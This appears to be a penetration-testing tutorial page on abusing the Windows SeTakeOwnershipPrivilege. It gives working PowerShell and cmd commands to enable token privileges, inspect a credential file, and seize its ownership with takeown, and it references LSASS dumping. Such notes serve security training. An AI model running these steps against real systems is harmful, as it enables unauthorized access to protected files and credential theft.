 ![LSSAS Dump](/assets/img/notes/system/WPE_taskmgr_lsass.png)

## SeTakeOwnershipPrivilege 

**SeTakeOwnershipPrivilege** grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that. It may also be assigned a few others such as **SeBackupPrivilege**, **SeRestorePrivilege**, and **SeSecurityPrivilege**. With this privilege, a user could take ownership of any file or object and make changes, making a RCE or DOS.

Start by retrieving our privileges (`whoami /priv`). We can use this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) (more info [here](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)). Now search for a target file. It's common to find file shares with **Public** and **Private** directories.

Let's check out our target file to gather a bit more information about it:
```console
PS C:\zeropio> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

We can not see the owner because we don't have permissions over it. We can check the owner of the `IT`{: .filepath} directory:
```console
PS C:\zeropio> cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) binary to change the ownership:
```console
PS C:\zeropio> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```
